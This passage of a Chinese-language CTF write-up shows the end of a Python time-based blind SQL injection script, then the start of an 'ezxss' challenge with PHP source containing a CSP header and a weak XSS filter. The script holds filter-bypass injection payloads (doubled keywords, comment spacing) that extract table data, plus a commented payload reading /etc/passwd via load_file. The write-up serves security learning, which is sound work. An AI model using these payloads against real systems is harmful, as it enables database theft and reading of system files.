 ```python
        #payload="-1'||if(ascii(substr((seselectlect/**/group_coonncat(column_name)/**/from/**/iinnfoorrmatioonn_schema.columns/**/whewherere/**/table_name/**/lilikeke/**/'ctf'),{},1))<{},sleep(1),1)#".format(i,j)
        payload="-1'||if(ascii(substr((seselectlect/**/group_coonncat(value)/**/from/**/ctf),{},1))<{},sleep(0.4),1)#".format(i,j)

    #payload="'||ascii(substr((load_file(reverse('dwssap/cte/'))),{},1))<{}#".format(i,j)

        data={
            'username':payload,
            'studentid':'1',
            'submit':'提交'
        }
        try:
            r=requests.post(url=url,data=data,timeout=0.3)
            #print(r.text)
            min = j
        except:
            max = j

        sleep(0.2)
```



flag在ctf表里。







## ezxss

不会XSS，学一波CSP。

f12发现：

```html
<!--?source=1-->
```

得到源码：

```php
<?php
if(!isset($_GET['user'])&&!isset($_GET['username'])&&!isset($_GET['source'])&&!isset($_GET['query'])){
    header("Location: ./?username=guest");
    die();
}
$test=md5(uniqid('',true));
header("Content-Security-Policy:  script-src 'strict-dynamic' 'nonce-$test'; img-src 'self'; style-src 'self';  font-src 'self'; frame-src 'none' ");
header ( "Cache-Control: no-cache, must-revalidate " );
function getCurrentUrl(){
    $scheme = $_SERVER['REQUEST_SCHEME'];
    $domain = $_SERVER['HTTP_HOST'];
    $requestUri = $_SERVER['REQUEST_URI'];
    $currentUrl = $scheme . "://" . $domain . $requestUri;
    return $currentUrl;
}
class user{
    public $username;
    public function __wakeup(){
        if (is_string($this->username)){
            if (preg_match('/script|<|>|onload|onerror/i',$this->username)){
                die('no xss');
```